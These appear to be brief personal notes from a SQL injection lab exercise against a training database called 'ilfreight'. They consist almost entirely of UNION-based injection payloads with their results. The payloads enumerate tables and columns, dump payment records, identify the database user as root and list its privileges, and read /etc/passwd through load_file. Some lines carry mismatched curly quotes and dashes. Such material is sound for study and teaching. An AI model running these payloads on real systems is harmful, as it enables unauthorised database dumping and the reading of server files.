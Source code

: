 1' union select 1,version(),database(),TABLE_NAME,TABLE_SCHEMA from information_schema.tables where table_schema='ilfreight’;-- -
1' union select 1,version(),database(),table_name,Table_schema from information_schema.tables where table_schema='ilfreight';-- -

result : users / payment

1' union select 1,version(),database(),column_name,4 from information_schema.columns where table_name=‘users’;— -

Result -> unknow column

' union select 1,version(), database(), column_name, 4 from information_schema.columns where table_name='payment’;--  -

result -> id name month amount tax 

1' union select 1,current_user(),user(),user from ilfreight.user;-- -

result: ilfreight not exist 

1' union select 1,name,month,amount,tax from ilfreight.payment;— -

Result: Adam (useless)
	    james (useless)


1' union select 1,user(),current_user(),4,5 from ilfreight.user;— -

Result: root@localhost

1' union select 1,grantee,privilege_type,4,5 from information_schema.user_privileges where grantee="'root'@'localhost'";— -

result ： 權限列表

1' union select 1,load_file(“/etc/passwd"),3,4,5;— -

Result: path列表
